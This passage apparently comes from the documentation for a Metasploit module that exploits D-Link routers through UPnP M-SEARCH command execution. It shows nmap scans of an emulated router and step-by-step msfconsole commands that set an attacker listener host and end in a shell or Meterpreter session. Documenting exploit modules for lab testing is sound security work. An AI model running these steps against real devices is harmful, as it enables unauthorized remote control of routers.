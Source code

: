 ```shell
53/tcp    open  domain
80/tcp    open  http
443/tcp   open  https
8181/tcp  open  intermapper
49152/tcp open  unknown
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.25 seconds
 # nmap -sU 192.168.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:34 UTC
Nmap scan report for 192.168.0.1
Host is up (0.0019s latency).
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
137/udp   open|filtered netbios-ns
1900/udp  open|filtered upnp
5353/udp  open          zeroconf
5355/udp  open|filtered llmnr
19541/udp open|filtered jcp
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1054.98 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/upnp/dlink_upnp_msearch_exec`
- [x] `set rhosts <ip-target>`
- [x] `set rport 1900`
- [x] `set http_port 80`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`

```shell
msf6 exploit(linux/upnp/dlink_upnp_msearch_exec) > options

Module options (exploit/linux/upnp/dlink_upnp_msearch_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1900             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   HTTP_PORT  80               yes       Universal Plug and Play (UPnP) UDP port
   URIPATH                     no        The URI to use for this exploit (default is random)
   URN        urn:device:1     no        Set URN payload
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

```
